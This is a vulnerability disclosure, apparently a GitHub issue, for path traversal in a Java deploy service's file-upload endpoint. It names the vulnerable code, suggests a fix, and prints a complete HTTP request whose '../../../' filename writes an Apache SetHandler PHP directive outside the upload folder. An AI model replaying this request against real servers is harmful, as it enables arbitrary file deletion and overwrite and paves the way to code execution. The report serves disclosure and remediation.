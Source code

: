 # 1. Basic Vulnerability Information

**Affected URL**:   http://localhost:8000/api/deploy/upload

**Affected Parameters:**   filename

**Impact Scope:**   2.7.18

**Vulnerability description：** When uploading a file, first confirm that the file does not exist before uploading. Then, by calling the deletion method of the Java framework, if the file exists, delete it. Finally, perform the upload operation


# 2. Vulnerability reproduction process
If the uploaded file exists, delete it first before uploading

![image](https://github.com/user-attachments/assets/fbac9b69-e45e-4001-a89f-341b105a9d34)

Complete request packet

``` py
POST /api/deploy/upload HTTP/1.1
Host: localhost:8000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiNUptg1p0qhRY9Yo
Referer: http://localhost:8013/
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiIwZGU0MTE0YTQ0ZGI0ZTMwYTY0YjEzZjRkZDY4MDJlYSIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.WG3uSBAck77-XgeNlV1Y0UHyDVm-Qk2nqtHDrribu0ot7R7bt7YI3QF2g0EVjoefpUFcRqpGGjIC7RIeFz0m-g
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Origin: http://localhost:8013
Sec-Fetch-Site: same-site
Content-Length: 1090

------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="app"

[object Object]
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="createBy"

admin
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="createTime"

2025-04-06 16:56:50
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="deploys"

[object Object]
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="id"

2
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="servers"

ww
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="updateBy"

admin
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="updateTime"

2025-04-06 16:56:50
------WebKitFormBoundaryiNUptg1p0qhRY9Yo
Content-Disposition: form-data; name="file"; filename="../../../115.txt"
Content-Type: text/plain

<IfModule mime_module>
SetHandler application/x-httpd-php    
</IfModule>

------WebKitFormBoundaryiNUptg1p0qhRY9Yo--

```


# 3. Vulnerable Code
file.getOriginalFilename(); Receive the original file name for upload  //File deletion tool method

fileSavePath+fileName； Splicing the uploaded files into a path

![image](https://github.com/user-attachments/assets/16f54654-534d-4fa0-8aec-6d4cedd5e988)

FileUtil.del(deployFile); // File deletion tool method

file.transferTo(deployFile); // Upload files received from HTTP requests

Call the framework function to delete duplicate files before uploading


![image](https://github.com/user-attachments/assets/908d70b6-db4f-4cdf-8cd4-0ff0511f8d9a)


# 4. Remediation Suggestions
Defend against multiple levels of input verification, standardized storage, user permissions, and operational control
